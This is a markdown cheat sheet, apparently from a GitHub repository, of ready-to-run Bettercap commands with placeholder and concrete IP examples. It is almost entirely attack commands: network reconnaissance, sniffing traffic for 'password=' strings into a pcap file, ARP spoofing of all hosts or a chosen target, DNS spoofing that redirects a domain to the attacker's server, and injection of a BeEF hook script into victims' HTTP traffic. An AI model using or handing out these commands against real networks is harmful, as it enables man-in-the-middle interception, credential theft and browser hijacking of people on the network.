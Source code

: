 # Bettercap

## GUI

Install GUI:

	sudo bettercap -eval "caplets.update; ui.update; q"

Execute:

	sudo bettercap -caplet http-ui -gateway-override %Variable%Gateway% -iface %Variable%Interface%

	sudo bettercap -caplet http-ui 192.168.0.1 -iface en0

## Mac OS

Open bettercap: (configure the gateway and the interface for Mac OS)

	sudo bettercap -gateway-override %Variable%Gateway% -iface %Variable%Interface%

	sudo bettercap -gateway-override 192.168.0.1 -iface en0

## Scan networks

	sudo bettercap -gateway-override %Variable%Gateway% -iface %Variable%Interface% -eval 'net.recon on;net.probe on;clear;ticker on;'

	sudo bettercap -gateway-override 192.168.0.1 -iface en0 -eval 'net.recon on;net.probe on;clear;ticker on;'

## Active sniffing (interactive)

	set net.sniff.regexp %Variable%RegEx%;

	set net.sniff.regexp .*password=.+;

	set net.sniff.output passwords.pcap;
	net.sniff on;

## ARP spoofing

Spoof all the hosts: (be careful on big network)

	sudo bettercap -gateway-override %Variable%Gateway% -iface %Variable%Interface% -eval 'set arp.spoof.fullduplex true;arp.spoof on;'

	sudo bettercap -gateway-override 192.168.0.1 -iface en0 -eval 'set arp.spoof.fullduplex true;arp.spoof on;'

Spoof a specific host:

	sudo bettercap -gateway-override %Variable%Gateway% -iface %Variable%Interface% -eval 'set arp.spoof.fullduplex true;set arp.spoof.targets %Variable%RHOST%;arp.spoof on;'

	sudo bettercap -gateway-override 192.168.0.1 -iface en0 -eval 'set arp.spoof.fullduplex true;set arp.spoof.targets 192.168.0.110;arp.spoof on;'

## DNS Spoofing

Spoof all the hosts: (be careful on big network)

	sudo bettercap -gateway-override %Variable%Gateway% -iface %Variable%Interface% -eval 'set arp.spoof.fullduplex true;arp.spoof on;set dns.spoof.domains %Variable%Domain%;set dns.spoof.all true;dns.spoof on;set http.server.path /Library/WebServer/Documents;http.server on'

	sudo bettercap -gateway-override 192.168.0.1 -iface en0 -eval 'set arp.spoof.fullduplex true;arp.spoof on;set dns.spoof.domains apache.com;set dns.spoof.all true;dns.spoof on;set http.server.path /Library/WebServer/Documents;http.server on'

Spoof a specific host:

	sudo bettercap -gateway-override %Variable%Gateway% -iface %Variable%Interface% -eval 'set arp.spoof.fullduplex true;set arp.spoof.targets %Variable%RHOST%;arp.spoof on;set dns.spoof.domains %Variable%Domain%;set dns.spoof.address %Variable%LHOST%;dns.spoof on;set http.server.path /Library/WebServer/Documents;http.server on'

	sudo bettercap -gateway-override 192.168.0.1 -iface en0 -eval 'set arp.spoof.fullduplex true;set arp.spoof.targets 192.168.0.110;arp.spoof on;set dns.spoof.domains apache.com;set dns.spoof.address 192.168.0.116;dns.spoof on;set http.server.path /Library/WebServer/Documents;http.server on'

## Script injection

	sudo bettercap -gateway-override %Variable%Gateway% -iface %Variable%Interface% -eval 'set arp.spoof.fullduplex true;set arp.spoof.targets %Variable%RHOST%;arp.spoof on;set http.proxy.script /Library/WebServer/Documents/bettercap/%Variable%Script%;set http.proxy.blacklist *;set http.proxy.whitelist %Variable%Domain%;http.proxy on'

	sudo bettercap -gateway-override 192.168.0.1 -iface en0 -eval 'set arp.spoof.fullduplex true;set arp.spoof.targets 192.168.0.110;arp.spoof on;set http.proxy.script /Library/WebServer/Documents/bettercap/beef.js;set http.proxy.blacklist *;set http.proxy.whitelist apache.com;http.proxy on'